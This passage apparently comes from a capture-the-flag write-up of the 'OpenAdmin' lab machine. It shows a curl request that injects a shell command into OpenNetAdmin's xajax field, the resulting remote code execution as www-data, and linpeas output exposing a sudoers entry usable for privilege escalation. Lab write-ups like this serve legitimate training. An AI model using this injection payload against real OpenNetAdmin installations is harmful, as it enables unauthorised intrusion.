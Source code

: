 which is strange, because
```
Description:
  This module exploits a command injection in OpenNetAdmin between
  8.5.14 and 18.1.1.
```

noticed this machine is running a little slow, so maybe we're timing out prematurely?

didn't find an easy way to control the timeout, so cooked up this curl:
> $ curl -v -X POST -H "Content-Type: application/x-www-form-urlencoded" http://openadmin.htb/ona/login.php --data-raw "xajax=window_submit&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;id;&xajaxargs[]=ping"

and while there was a lot of garbage to parse through, did see
```
<!-- Module Output -->
<table style="background-color: #F2F2F2; padding-left: 25px; padding-right: 25px;" width="100%" cellspacing="0" border="0" cellpadding="0">
    <tr>
        <td align="left" class="padding">
            <br>
            <div style="border: solid 2px #000000; background-color: #FFFFFF; width: 650px; height: 350px; overflow: auto;resize: both;">
                <pre style="padding: 4px;font-family: monospace;">uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
            </div>
        </td>
    </tr>
</table>
```

ok, to be more clear
```
<pre style="padding: 4px;font-family: monospace;">uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

so definitely got RCE, it's just ugly. let's make it pretty.

unfortunately, [rs.php](rs.php) gives an error we haven't seen before:
> WARNING: Failed to daemonise. This is quite common and not fatal. Connection refused (111)


tried a couple other reverse shells, similar issues. ok, going to keep plugging along anyway.

linpeas:
```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -

...

╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Sudoers file: /etc/sudoers.d/joanna is readable
joanna ALL=(ALL) NOPASSWD:/bin/nano /opt/priv

...


╔══════════╣ Users with console
```